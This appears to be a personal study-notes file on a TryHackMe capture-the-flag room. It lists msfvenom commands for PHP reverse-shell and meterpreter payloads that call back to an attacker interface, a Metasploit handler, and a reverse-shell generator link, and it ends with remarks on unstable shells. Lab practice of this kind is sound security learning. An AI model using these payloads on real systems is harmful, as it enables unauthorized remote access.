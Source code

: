 # R

* Remember for web/general/security
* .todo: metasploit dns
* .todo: windows Linux web shell
* web general | terminology | URL may have to be moved
* explose hacking_process

## Overconfidence

--- https://tryhackme.com/room/rrootme

* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4455 -o revshell.php`
* exploit/multi/handler
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4455 -o revshell2.php`
* `msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4455 -o revshell3.php5`
* `sudo bash -c "id"`
* https://www.revshells.com/
* TL;DR. Nothing explained to improve the shell worked. Could not run python commands, the shell was crashing. Had to use a web shell to run python commands. The meterpreter didn't work "as expected". The reverse tcp worked but it wasn't a good experience.
* writeups